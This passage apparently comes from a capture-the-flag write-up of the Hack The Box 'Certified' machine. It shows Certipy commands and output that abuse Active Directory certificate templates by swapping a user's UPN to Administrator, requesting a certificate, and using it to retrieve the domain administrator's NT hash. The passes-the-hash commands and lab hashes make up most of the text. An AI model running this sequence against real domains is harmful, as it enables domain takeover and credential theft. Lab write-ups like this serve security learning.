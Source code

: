 ```bash
certipy account update -u management_svc -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.129.231.186
  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

We then request a certificate:

```bash
certipy req -u ca_operator -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186
  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'  
  
```

Certificate was issued with `UPN = Administrator`.

We then restore the original UPN;
```bash
certipy account update -u management_svc -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.129.231.186

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'

```

## Domain Administrator Access

Finally, we use the certificate to get the administrator’s NTLM hash:

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.231.186 -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```
